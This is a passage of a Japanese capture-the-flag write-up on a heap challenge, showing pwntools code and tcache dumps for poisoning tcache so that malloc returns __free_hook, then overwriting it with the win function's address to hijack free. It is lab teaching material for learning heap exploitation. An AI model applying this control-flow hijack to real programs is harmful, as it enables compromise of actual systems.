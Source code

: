 > ```
> It seems __free_hook is successfully linked to tcache!
> And the chunk size is properly forged!
> ```

ここでもう一度`B`の`malloc`と書き込みを行う。ここで書き込む内容はなんでもよい。

```python
p.sendlineafter("> ", '2')
p.sendline(b'X' * 0x10)
```

この段階でのヒントはこんな感じ。

> ```
> It seems __free_hook is successfully linked to tcache!
> The first link of tcache is __free_hook!
> But B is not empty...
> ```

`B`を`free`して空にしてみる。

> ```
> It seems __free_hook is successfully linked to tcache!
> The first link of tcache is __free_hook!
> Also B is empty! You know what to do, right?
> ```

ここでtcacheの状態を見てみると、`B`を`free`したのにここに追加されておらず、`__free_hook`のアドレスだけが残っていることがわかる。

> ```
> -=-=-=-=-= TCACHE -=-=-=-=-=
> [    tcache (for 0x20)    ]
>         ||
>         \/
> [ 0x00007fc20362c8e8(rw-) ]
>         ||
>         \/
> [      END OF TCACHE      ]
> -=-=-=-=-=-=-=-=-=-=-=-=-=-=
> ```

最初のヒントには以下の記載があった。

> ```
> Tcache manages freed chunks in linked lists by size.
> ```

また、冒頭に挙げた記事にも次の記載がある。

> 定数TCACHE_MAX_BINSはデフォルトでは64になっていて、キャッシュされるサイズは0x18, 0x28, 0x38, ..., 0x408バイト以下というように区切られています。

つまり、先ほどチャンクサイズを`0x30`ということにしたため、今`malloc`して`free`した`B`はtcacheの別のリストに追加された、ということだと思う（たぶん）。

さて、この状態になると次の`malloc`では`__free_hook`のアドレスが返ってくる。`__free_hook`は`free`したときに呼び出される関数へのポインタである。したがって、今`malloc`して返ってきた領域に`win`関数のアドレスを書き込んで`free`を呼ぶと、代わりに`win`関数が呼び出される。最後に出力を表示するのを忘れずに。

```python
p.sendlineafter('> ', '2')
p.sendline(pack(win_addr))

p.sendlineafter('> ', '3')

log.info(p.recvline_contains("ctf4b"))
```
